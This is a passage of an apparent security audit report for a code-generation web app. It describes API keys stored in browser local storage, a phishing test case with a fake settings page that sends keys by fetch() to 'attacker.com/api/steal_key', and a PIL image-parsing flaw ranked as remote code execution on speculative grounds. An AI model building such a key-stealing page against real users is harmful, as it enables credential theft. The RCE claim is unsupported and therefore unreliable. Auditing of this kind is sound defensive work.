    3. **Backend API Usage:** The backend (`backend\config.py`, `backend\routes\generate_code.py`, `backend\llm.py`) receives the API key from the frontend and uses it for authenticating with the OpenAI API during the request. The backend does not persist or log the API key.
    4. **Documentation Review:** `Troubleshooting.md` and `README.md` confirm the client-side storage approach for API keys, instructing users to provide their keys and mentioning local browser storage.
- **Security Test Case:**
    1. **Phishing Website Setup:** Create a replica of the application's frontend settings dialog in a simple HTML page. Host this page on a public URL (using free hosting or ngrok for testing).
    2. **Malicious JavaScript Implementation:** Embed JavaScript in the phishing page to:
        - Mimic the settings dialog functionality.
        - Upon saving the API key, store it in the phishing site's local storage.
        - **Exfiltrate API Key:** Send the entered API key to an attacker-controlled server using `fetch()` or `XMLHttpRequest()` to a URL like `https://attacker.com/api/steal_key?key=<api_key>`.
        - Optionally redirect to the real application website to enhance deception.
    3. **Phishing Link Distribution:** Share the phishing website link with a test user.
    4. **User Interaction Simulation:** The test user visits the phishing site, enters a valid OpenAI API key in the fake settings dialog, and "saves" it.
    5. **Attacker Server Verification:** Check the attacker server logs to confirm successful receipt of the stolen API key.
    6. **Local Storage Inspection (Phishing Site):** Verify that the API key is stored in the phishing website's local storage in the test user's browser.

This test case successfully demonstrates the vulnerability by showing how easily an attacker can steal API keys through a phishing attack due to insecure local storage.

#### 2. PIL Image Processing Vulnerability Leading to Remote Code Execution

- **Vulnerability Name:** PIL Image Processing Vulnerability
- **Description:**
    1. An attacker uploads a maliciously crafted image file to the application.
    2. The backend receives this image data as a base64 encoded string through the `/generate-code` websocket endpoint.
    3. The `stream_claude_response` function in `backend/llm.py` processes this image using the `process_image` function from `backend/image_processing/utils.py` to prepare it for the Claude API.
    4. The `process_image` function decodes the base64 image data and uses the `PIL.Image.open(io.BytesIO(image_bytes))` function to open and parse the image file.
    5. The PIL library, used for image processing, is known to have vulnerabilities in parsing various image formats. A specially crafted image can exploit these vulnerabilities (e.g., buffer overflows, heap overflows, out-of-bounds reads/writes) during the `Image.open()`, `img.resize()`, or `img.save()` operations.
    6. Successful exploitation can lead to arbitrary code execution on the server, allowing the attacker to gain complete control of the server, steal sensitive data, or perform other malicious actions.
- **Impact:**
    - **Critical: Remote Code Execution (RCE).** An attacker can execute arbitrary code on the server running the application, leading to full system compromise.
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:**
    - **None:** The code uses the PIL library for image processing without any explicit security measures to sanitize or validate the image file before processing.
- **Missing Mitigations:**
    - **Input Validation and Sanitization:** Implement robust server-side validation of uploaded image files, including:
        - **File Type Validation:** Verify that the uploaded file is indeed an image file (e.g., using magic bytes).
        - **Format-Specific Validation:** Use libraries to validate the internal structure of image files to detect and reject malformed or malicious files.
    - **Secure Image Processing Libraries/Sandboxing:** Consider using more secure image processing libraries or sandboxed environments for image processing to limit the impact of potential vulnerabilities.
    - **Regular Security Updates:** Keep the PIL library and other dependencies up-to-date to patch known vulnerabilities.
- **Preconditions:**
    - The application must be running and accessible over the network.